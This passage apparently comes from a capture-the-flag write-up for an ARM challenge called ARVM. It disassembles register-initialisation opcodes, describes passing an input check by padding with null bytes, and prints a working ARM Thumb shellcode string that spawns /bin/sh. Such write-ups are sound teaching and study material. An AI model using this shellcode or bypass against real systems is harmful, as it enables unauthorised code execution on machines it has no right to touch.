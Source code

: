 At last, original input is save `buf+8 + 0x34` the '0x34' is length of `init_register_code`. So i think their stored value looks like OP code.

It's disassembly result that op code:

```c
mov r0, #0
mov r1, #0
mov r2, #0
mov r3, #0
mov r4, #0
mov r5, #0
mov r6, #0
mov r7, #0
mov r8, #0
mov sb, #0
mov sl, #0
mov fp, #0
mov ip, #0
```

Also you can found [link](https://armconverter.com/?disasm&code=0000a0e3%0A0010a0e3%0A0020a0e3%0A0030a0e3%0A0040a0e3%0A0050a0e3%0A0060a0e3%0A0070a0e3%0A0080a0e3%0A0090a0e3%0A00a0a0e3%0A00b0a0e3%0A00c0a0e3).

As you can see that pretty simple register initialization code so i renamed `init_register_code`.

### Chcek Input

Binary is called some function and that is check our input. If invalid input is detect print "Invalid Input" and stop program.

To execute shellcode, we need bypass checking algorithm. But it's too many function and condition.

I just want to know how can i pass the checking algorighm. So i try the `\x00 * 0x30` payload then we can pass the algorithm.

I didn't know why but i add the padding byte both head and tail like this:

```
sc = "\x00" * 0x30
sc += "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc1\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41"
sc += "\x00" * 0x30
```

I'm not sure why i did so just sense. Finally, i succeed pass the algorithm.

* * *

# Exploit

![Exploit](./ARVM_flag.png)
